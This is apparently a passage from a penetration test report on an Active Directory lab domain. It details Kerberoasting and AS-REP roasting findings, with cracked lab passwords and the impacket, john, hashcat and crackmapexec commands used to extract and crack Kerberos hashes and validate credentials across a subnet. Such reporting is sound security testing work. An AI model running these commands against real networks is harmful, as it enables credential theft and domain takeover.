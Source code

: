 ### 1.2 Kerberoasting Vulnerable Service Accounts

**CVSS Score:** 9.0 (Critical)  
**Vector:** AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H

**Vulnerable Accounts:**
```
jon.snow (CIFS/thewall.north.sevenkingdoms.local)
├── Password: iknownothing (CRACKED via rockyou.txt)
├── Delegation: constrained
└── Group Membership: Night Watch, Domain-level privileges

sansa.stark (HTTP/eyrie.north.sevenkingdoms.local)
├── Password: [CRACKING IN PROGRESS]
├── Delegation: None
└── Group Membership: Stark family

sql_svc (MSSQLSvc/castelblack.north.sevenkingdoms.local:1433)
├── Password: [CRACKING IN PROGRESS]
├── Last Logon: 2025-04-13 19:12:10
└── High-privilege SQL service account
```

**Exploitation Steps:**
```bash
# 1. SPN Extraction
GetUserSPNs.py north.sevenkingdoms.local/hodor:hodor -dc-ip 192.168.20.11 -outputfile kerberoast.txt

# 2. Hash Cracking
john --wordlist=/usr/share/wordlists/rockyou.txt kerberoast.txt
hashcat -m 13100 kerberoast.txt rockyou.txt

# 3. Credential Validation
crackmapexec smb 192.168.20.0/24 -u jon.snow -p iknownothing
```

**Impact:**
- Immediate domain access
- Service account privilege escalation
- Constrained delegation exploitation potential
- SQL Server administrative access

### 1.3 AS-REP Roasting - Pre-Authentication Disabled

**CVSS Score:** 8.8 (High)
**Vector:** AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H

**Vulnerable Account:**
```
brandon.stark@NORTH.SEVENKINGDOMS.LOCAL
├── Password: iseedeadpeople (CRACKED via Hashcat)
├── Pre-Auth: DISABLED
├── Kerberos Ticket: $krb5asrep$23$brandon.stark@NORTH...
└── Account Status: Active, no lockout policy
```
